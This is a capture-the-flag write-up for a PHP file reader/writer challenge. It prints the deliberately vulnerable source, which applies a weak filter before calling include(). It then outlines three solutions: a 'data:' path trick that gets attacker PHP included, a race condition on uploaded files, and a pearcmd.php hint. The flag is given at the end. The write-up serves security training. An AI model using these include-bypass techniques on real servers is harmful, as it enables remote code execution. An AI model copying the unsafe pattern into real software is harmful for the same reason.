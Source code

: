 # Safe R/W

## Description:

> I implemented the safest php file reader/writer!

> Hack me if you can :p

> Ps. open_basedir=/var/www/html/

```php
<?php

    if(isset($_GET['src']))
        highlight_file(__FILE__);

    function waf($s, $type) {
        if($type == 0) {
            if(stripos($s, ".") !== FALSE) die(bye());
            if(stripos($s, "/") !== FALSE) die(bye());
            if(stripos($s, "-") !== FALSE) die(bye());
        } else if($type == 1) {
            if(strlen($s) > 20) die(bye());
        } else {
            if(stripos($s, "ph") !== FALSE) die(bye());
        }
    }

    function bye() {
        header("Location: https://youtu.be/dQw4w9WgXcQ");
    }

    $sandbox = '/var/www/html/sandbox/' . @md5("kaibro" . $_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']);
    @mkdir($sandbox);
    @chdir($sandbox);

    $f = $_GET{'f'};
    $c = $_GET{'c'};
    $i = $_GET{'i'};

    waf($f, 0, 1, 2, 3);
    waf($c, 1, 2, 3, 0);
    waf($i, 2, 3, 0 ,1);

    @system("mkdir " . escapeshellarg($sandbox . "/" . $f));
    @chdir($sandbox . "/" . $f);

    @file_put_contents("meow", $c);

    @chdir($sandbox);
    if(isset($i) && stripos(file_get_contents($i), '<') === FALSE) {
        echo "<div class='container'>";
        echo "<h2>Here is your file content:</h2>";
        @include($i);
        echo "</div>";
    }


    @chdir(__DIR__);
    $md5dir = @md5("kaibro" . $_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']);
    @system('rm -rf sandbox/' . $md5dir );

    echo "<hr>";
?>

<head>
<link rel="stylesheet" type="text/css" href="https://bootswatch.com/4/flatly/bootstrap.min.css">
</head>
<div class="container">

<h1>Safe R/W</h1>
<br>
<a href="/?src=1">Source Code</a><br>
<br>
<form>
    Directory Name: <input type="text" class="form-control" name="f" value="mydir"><br>
    File Name: <input type="text" class="form-control" name="i" value="mydir/meow"><br>
    File Content: <input type="text" class="form-control" name="c" placeholder="say something..."><br>
    <input type="submit" class="btn btn-info">
</form>
</div>
```

## Solution:

The php code first make a directory based on my IP and browser info, and change into that directory. It then makes another directory based on my input for "Directory Name", change into that directory, and write my input for "File Content" into a file called `meow`.

### Solution 1:

`file_get_contents()` and `include()` will parse paths that look like data protocol differently.

```console
mkdir data:,kaibro
echo "<?php echo 'cool!';" > data:,kaibro/a.php

PHP > echo file_get_contents("data:,kaibro/a.php");
=> kaibro/a.php
PHP > include("data:,kaibro/a.php");
cool!
```

So `$i = data:/meow` will trigger error for `file_get_content()`, but include won't.

OR

```php
$f = data:,
$i = data:,/meow
=> i == /meow
$c = <?php ...
```

### Solution 2:

Race condition.

2 Threads, one keep uploading php code (which will not past the check), another one keep including, before the first one is deleted.

### Solution 3:

pearcmd.php (google it)

`FLAG{w3lc0me_t0_th3_PHP_W0r1d}`
